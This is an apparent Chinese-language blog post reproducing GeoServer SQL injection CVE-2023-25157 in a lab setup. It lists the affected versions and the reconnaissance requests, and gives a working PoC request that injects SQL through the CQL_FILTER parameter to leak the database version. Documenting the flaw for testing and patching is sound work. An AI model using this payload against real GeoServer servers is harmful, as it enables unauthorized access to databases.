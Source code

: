 #  【漏洞复现】GeoServer SQL注入漏洞（CVE-2023-25157）   
紫色皓月  皓月的笔记本   2023-10-14 10:00  
  
声明：请勿将文章内的相关技术用于非法目的，如有相关非法行为与文章作者和本公众号无关。请遵守《中华人民共和国网络安全法》。  
  
0X01 简介  
  
GeoServer 是 OpenGIS
Web 服务器规范的 J2EE 实现，利用 GeoServer可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作，通过 GeoServer 可以比较容易的在用户之间迅速共享空间地理信息。  
  
  
官网：  
  
  
https://geoserver.org/  
  
  
漏洞编号：  
  
CVE-2023-25157  
  
  
影响范围：  
  
GeoServer < 2.21.4  
  
GeoServer < 2.22.2  
  
  
复现环境：  
  
GeoServer 2.22.1  
  
  
0X02   
漏洞复现  
  
获取图层信息  
```
http://192.168.245.134:8080/geoserver/ows?service=WFS&version=1.0.0&request=GetCapabilities
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPJddSucwnoGlt4IZDoSicRa0X6tzdb4cm8bVUibvVEwRwX9sRDQXrXMakNh7gPMjBufE59r6ntibdGqg/640?wx_fmt=jpeg "")  
  
获取图层属性  
```
http://192.168.245.134:8080/geoserver/wfs?request=DescribeFeatureType&version=2.0.0&service=WFS&outputFormat=application/json&typeName=ne:ceshi{图层名称}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPJddSucwnoGlt4IZDoSicRa0hMBQTtDtN8ibqsKCd4Gkkh6fPvibPfFULkdyI7xljDC3crWLdqA5iaajQ/640?wx_fmt=jpeg "")  
  
POC：  
```
GET /geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=ne:ceshi{图层名称}&CQL_FILTER=strStartsWith(test{图层属性},%27x%27%27)+%3d+true+and+1%3d(SELECT+CAST+((SELECT+version())+AS+INTEGER))+--+%27)+%3d+true HTTP/1.1
Host: 192.168.245.134:8080
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPJddSucwnoGlt4IZDoSicRa0lWT3zdI91ykDiazbdFaEctyrCxtZrmicYhVpLiaNJf6JtzElE9eR4K23w/640?wx_fmt=jpeg "")  
  
  
0X03 修复建议  
  
更新至最新版！  
  
  
0X04 写在最后  
  
  
回复“加群”，获取群号。  
  
侵删！  
  
  

